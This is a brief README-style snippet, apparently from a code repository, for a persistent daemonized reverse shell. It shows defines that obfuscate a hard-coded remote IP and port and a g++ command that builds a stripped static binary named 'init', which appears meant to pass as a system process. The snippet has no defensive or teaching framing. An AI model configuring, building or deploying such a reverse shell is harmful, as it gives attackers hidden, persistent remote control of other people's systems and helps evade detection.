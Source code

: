 ### persistent daemonizec reverse shell


Change with your public IP and open port
```c
#define REMOTE_ADDR OBFUSCATE("207.46.148.7")
#define REMOTE_PORT 5069
```

compile with
```bash
g++ daemon_shell.cpp -O3 -march=native -fPIC -g -s -static -o ./init
```

output binary will be named init :)
